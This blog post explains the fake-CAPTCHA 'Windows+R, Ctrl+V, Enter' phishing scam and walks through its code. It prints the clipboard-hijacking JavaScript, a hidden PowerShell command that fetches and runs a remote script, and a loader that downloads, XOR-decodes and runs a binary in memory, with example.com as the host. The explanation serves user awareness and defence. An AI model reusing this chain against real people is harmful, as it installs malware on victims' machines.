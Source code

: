 +++
title = "How does the PowerShell phishing attack work"
date = 2024-10-29T06:57:18+08:00
aliases = ["posts/how-does-the-windows-r-scam-work"]

[taxonomies]
tags = ["CAPTCHA", "PowerShell", "Security", "Windows"]
+++

You might have heard of the new scam about the [CAPTCHA] which asks you to use Windows + R to verify that you are human.
It gives you a popup and introduces a verification step with `Windows + R` and `Ctrl + V` then press `Enter`.
You probably already know how it works, but let's take a closer look at their code this time.

<!-- more -->

Usually we see these scams from websites like [GitHub], [Reddit], etc.
They are usually disguised as normal comments, such as the below:

> Maybe this solution will solve your problem click this link: ...

They provide you with a link a and when you open it, you will find that the page requires a CAPTCHA verification.
When you click this CAPTCHA button, a window will pop up on the page and ask you to use a set of key combinations to complete the verification.
Like this:

> Verification Steps:\
> 1 - Press Windows + R\
> 2 - Press Ctrl + V\
> 3 - Press Enter

If you follow the steps they provide, you will fall into their trap.

### What happened during this process?

Let's look directly at their code to see what is executed during the process.

First, let's use [cURL] to obtain the source code of the target URL. I'm using an [example domain] here in case you accidentally enter the trap.

```bash
curl https://example.com/captcha.html
```

Let's take a look at the key codes in the obtained content:

```js
function open_modal() {
  var copyText =
    "powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()";
  var textarea = document.createElement("textarea");
  textarea.value = copyText;
  document.body.appendChild(textarea);
  textarea.select();
  document.execCommand("copy");
  document.body.removeChild(textarea);
  setTimeout(() => {
    document.querySelector("#modal").classList.remove("hidden");
  }, 2000);
}
```

It creates a phishing modal and uses [execCommand("copy")] to secretly copy a command to your clipboard. Let's see what the command does:

```powershell
powershell -WindowStyle Hidden ([ScriptBlock]::Create((irm https://example.com/scam))).Invoke()
```

- `irm` is an alias of the [Invoke-RestMethod] command of [PowerShell]. This is used to send an HTTP or HTTPS request to a RESTful web service.
- [\[ScriptBlock\]::Create] creates a script block based on a script to be parsed when execution contenxt is provide.
- [-WindowStyle Hidden] sets the window style for the session to hidden.

Now let's move to the `https://example.com/scam` to see its content:

```bash
curl https://example.com/scam
```

```powershell
$url = "https://example.com/binary"
$webClient = New-Object System.Net.WebClient
$sell61 = $webClient.DownloadData($url)
$gossip123 = 0x09, 0x04, 0x05
$struggle6 = [byte[]]::new($sell61.Length)

for ($i = 0; $i -lt $sell61.Length; $i++) {
  $struggle6[$i] = $sell61[$i] -bxor $gossip123[$i % $gossip123.Length]
}

$afraid16 = [System.AppDomain]::CurrentDomain.Load($struggle6)

if ($afraid16.EntryPoint -ne $null) {
  $afraid16.EntryPoint.Invoke($null, @($null))
} else {
  Write-Host "glass glimpse glue gloom"
}
```

- [New-Object System.Net.WebClient] provides a common methods for sending data to and receiving data from a resource identified by a URI.
- `-bxor` is an [arithmetic operator] for bitwise XOR calculation. In this for-loop it should be a deobfuscation process.
- [\[Sytem.AppDomain\]::CurrentDomain.Load] loads an [Assembly] into the specific domain.

Then they can do whatever they want with your operating system through the implanted application.

### Why is the phishing method so effective?

Effective phishing methods are often easy to operate and can catch you without realizing it.
Just like CAPTCHA, the various verification methods now make people lose their vigilance, and some people lack basic computer knowledge and fall into this trap.

On the other hand, due to the rise of smartphones and tablets, some people have become computer illiterate, especially the kids.
As the [Reddit post from r/Teachers] mentioned, more and more students don't know how to use computers.
People use their laptops only for schoolwork, and that's really about all you can do with it since the OS is so limited/sandboxed.

These factors combined make this phishing attack method such effective.

### Other similar attacks

Some merchants on the Internet will sell Steam games at extremely low prices.
They will give you a script and ask you to execute it.
This script will install pirated games on your computer and take the opportunity to implant malicious scripts.

### Links

- [Assembly]
- [CAPTCHA]
- [GitHub]
- [Invoke-RestMethod]
- [New-Object System.Net.WebClient]
- [PowerShell]
- [Reddit]
- [Reddit post from r/Teachers]
- [arithmetic operator]
- [cURL]
- [example domain]
- [execCommand("Copy")]
- [-WindowStyle Hidden]
- [\[ScriptBlock\]::Create]
- [\[Sytem.AppDomain\]::CurrentDomain.Load]

[Assembly]: https://learn.microsoft.com/en-us/dotnet/api/system.reflection.assembly
[CAPTCHA]: https://en.wikipedia.org/wiki/CAPTCHA
[GitHub]: https://github.com
[Invoke-RestMethod]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/invoke-restmethod
[New-Object System.Net.WebClient]: https://learn.microsoft.com/en-us/dotnet/api/system.net.webclient
[PowerShell]: https://learn.microsoft.com/en-us/powershell/
[Reddit]: https://www.reddit.com
[Reddit post from r/Teachers]: https://www.reddit.com/r/Teachers/comments/xuxbo9/why_dont_they_know_how_to_use_computers/
[arithmetic operator]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_arithmetic_operators
[cURL]: https://curl.se
[example domain]: https://www.iana.org/help/example-domains
[execCommand("Copy")]: https://developer.mozilla.org/en-US/docs/Web/API/Document/execCommand
[-WindowStyle Hidden]: https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_pwsh#-windowstyle---w
[\[ScriptBlock\]::Create]: https://learn.microsoft.com/en-us/dotnet/api/system.management.automation.scriptblock.create
[\[Sytem.AppDomain\]::CurrentDomain.Load]: https://learn.microsoft.com/en-us/dotnet/api/system.appdomain.load
